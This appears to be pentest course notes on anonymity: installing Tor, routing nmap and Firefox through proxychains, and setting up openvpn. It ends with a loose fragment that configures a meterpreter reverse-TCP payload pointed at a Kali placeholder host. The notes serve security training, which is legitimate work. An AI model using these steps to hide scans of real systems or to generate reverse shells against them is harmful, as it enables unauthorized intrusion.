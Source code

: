 # Section 18 : Introduction to anonymity
- for personal use and for pentest use
- example : fir scan, use vpn/tor browser/proxy

## Tor browser
- change ip address after X request/duration
sudo apt update
sudo apt-get install tor torbrowser-launcher #tor=service, torbrowser-launcher=browser
torbrowser-launcher # on first run : get and install tor browser

- to check if tor is running, access url : "http://check.torproject.org/"

## proxychains with nmap
- redirect nmap traffic to 3rd party entity
service tor start
service tor status
sudo apt-get install proxychains
sudo vim /etc/proxychains.conf
# comment static_chain
# uncomment
# dynamic_chain
# socks4 127.0.0.1 9050
# socks5 127.0.0.1 9050
proxychains firefox
proxychains nmap nmap.org -F
man proxychains
```
NAME
       proxychains4 - redirect connections through proxy servers
SYNOPSIS
       proxychains4 --help
       proxychains4 [ -f configfile.conf ] <program>
DESCRIPTION
       This program forces any tcp connection made by any given tcp client to follow through proxy (or proxy chain). It is a kind of proxifier.
```

## openvpn
- sudo apt-get install openvpn
- https://www.vpnbook.com/ / openvpn ; get a certificate bundle


[powershell/meterpreter/rev_tcp>>]: set SLEEP 42
[powershell/meterpreter/rev_tcp>>]: set LHOST <kali ip>
[powershell/meterpreter/rev_tcp>>]: generate